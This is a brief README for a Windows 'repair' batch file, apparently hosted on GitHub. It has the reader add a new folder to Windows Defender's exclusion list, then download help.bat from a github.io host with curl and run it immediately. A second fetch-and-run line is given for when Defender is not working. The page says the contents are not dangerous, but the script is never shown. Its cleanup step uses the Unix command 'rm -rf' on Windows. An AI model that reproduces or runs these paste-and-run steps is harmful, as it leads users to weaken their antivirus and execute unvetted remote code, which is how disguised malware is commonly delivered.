 This is a batch file for repair.

The contents are not dangerous.
However, since I couldn't think of a way to complete it with commands alone, I am creating an exclusion folder.


powershell
```
mkdir C:check
Add-MpPreference -ExclusionPath C:check
```
cmd
```
cd C:check
curl -s https://yuyu1815.github.io/win-repair/help.bat -o script.bat && script.bat
```
del
```
rm -rf C:check
```


When Windows Defender is not working
```
curl -s https://yuyu1815.github.io/win-repair/help.bat -o script.bat && script.bat
```
